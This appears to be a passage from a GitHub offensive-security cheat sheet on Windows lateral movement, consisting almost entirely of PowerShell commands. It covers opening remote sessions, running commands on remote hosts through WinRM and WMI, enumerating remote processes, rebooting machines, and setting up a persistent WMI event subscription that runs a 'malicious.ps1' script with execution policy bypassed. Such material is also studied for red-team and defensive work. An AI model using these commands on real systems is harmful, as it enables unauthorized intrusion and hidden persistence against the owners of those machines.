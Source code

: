 #### Open Remote PowerShell Session
```powershell
Enter-PSSession -ComputerName <target_ip> -Credential <domain>\<user>
```

#### Execute a Command on a Remote Host via WinRM
```powershell
Invoke-WmiMethod -Class Win32_Process -Name Create -ComputerName <target_ip> -Credential <domain>\<user> -ArgumentList "cmd.exe /c <command>"
```

# Windows Management Instrumentation (WMI)

WMI is a powerful mechanism for lateral movement, enabling remote execution of commands or scripts.

#### Check Remote System Information
```powershell
Get-WmiObject -ComputerName <target_ip> -Credential <domain>\<user> -Class Win32_OperatingSystem
```

#### Enumerate Running Processes on a Remote Machine
```powershell
Get-WmiObject -ComputerName <target_ip> -Credential <domain>\<user> -Class Win32_Process
```

#### Execute Commands via WMI
```powershell
Invoke-WmiMethod -ComputerName <target_ip> -Credential <domain>\<user> -Class Win32_Process -Name Create -ArgumentList "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\path\to\script.ps1"
```

#### Execute Remote PowerShell with WMI
```powershell
Invoke-WmiMethod -ComputerName <target_ip> -Credential <domain>\<user> -Class Win32_Process -Name Create -ArgumentList "powershell.exe -Command {Get-Process}"
```

#### Reboot a Remote Machine via WMI
```powershell
Invoke-WmiMethod -ComputerName <target_ip> -Credential <domain>\<user> -Class Win32_OperatingSystem -Name Reboot
```

#### Persistent WMI Event Subscription
```powershell
$filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{ Name = 'Filter'; EventNamespace = 'root\cimv2'; QueryLanguage = 'WQL'; Query = 'SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA "Win32_LocalTime" AND TargetInstance.Hour = 13'}
$consumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments @{ Name = 'Consumer'; CommandLineTemplate = 'powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\path\to\malicious.ps1'}
Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{ Filter = $filter; Consumer = $consumer }
```
